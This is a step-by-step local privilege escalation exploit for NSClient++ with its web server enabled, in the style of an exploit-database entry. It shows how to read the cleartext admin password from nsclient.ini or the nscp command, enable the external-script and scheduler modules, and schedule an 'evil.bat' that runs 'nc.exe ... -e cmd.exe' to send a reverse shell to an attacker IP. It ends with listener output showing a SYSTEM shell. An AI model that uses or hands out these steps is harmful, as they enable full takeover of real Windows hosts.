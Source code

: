     Details:
    When NSClient++ is installed with Web Server enabled, local low privilege users have the ability to read the web administator's password in cleartext from the configuration file.  From here a user is able to login to the web server and make changes to the configuration file that is normally restricted.

    The user is able to enable the modules to check external scripts and schedule those scripts to run.  There doesn't seem to be restrictions on where the scripts are called from, so the user can create the script anywhere.  Since the NSClient++ Service runs as Local System, these scheduled scripts run as that user and the low privilege user can gain privilege escalation.  A reboot, as far as I can tell, is required to reload and read the changes to the web config.

    Prerequisites:
    To successfully exploit this vulnerability, an attacker must already have local access to a system running NSClient++ with Web Server enabled using a low privileged user account with the ability to reboot the system.

    Exploit:
    1. Grab web administrator password
    - open c:\program files\nsclient++\nsclient.ini
    or
    - run the following that is instructed when you select forget password
            C:\Program Files\NSClient++>nscp web -- password --display
            Current password: SoSecret

    2. Login and enable following modules including enable at startup and save configuration
    - CheckExternalScripts
    - Scheduler

    3. Download nc.exe and evil.bat to c:\temp from attacking machine
            @echo off
            c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

    4. Setup listener on attacking machine
            nc -nlvvp 443

    5. Add script foobar to call evil.bat and save settings
    - Settings > External Scripts > Scripts
    - Add New
            - foobar
                    command = c:\temp\evil.bat

    6. Add schedulede to call script every 1 minute and save settings
    - Settings > Scheduler > Schedules
    - Add new
            - foobar
                    interval = 1m
                    command = foobar

    7. Restart the computer and wait for the reverse shell on attacking machine
            nc -nlvvp 443
            listening on [any] 443 ...
            connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
            Microsoft Windows [Version 10.0.17134.753]
            (c) 2018 Microsoft Corporation. All rights reserved.

